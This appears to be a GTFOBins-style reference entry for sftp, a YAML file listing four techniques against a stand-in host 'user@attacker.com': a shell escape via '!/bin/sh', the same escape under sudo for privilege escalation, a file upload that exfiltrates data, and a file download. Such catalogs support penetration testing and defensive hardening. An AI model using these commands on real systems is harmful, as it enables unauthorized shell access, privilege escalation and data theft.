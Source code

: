 ```yaml
---
functions:
  exec-interactive:
    - code: |
        HOST=user@attacker.com
        sftp $HOST
        !/bin/sh
  sudo-enabled:
    - code: |
        HOST=user@attacker.com
        sudo sftp $HOST
        !/bin/sh
  upload:
    - description: Send local file to a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        put file_to_send where_to_save
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        get file_to_get where_to_save
---
```

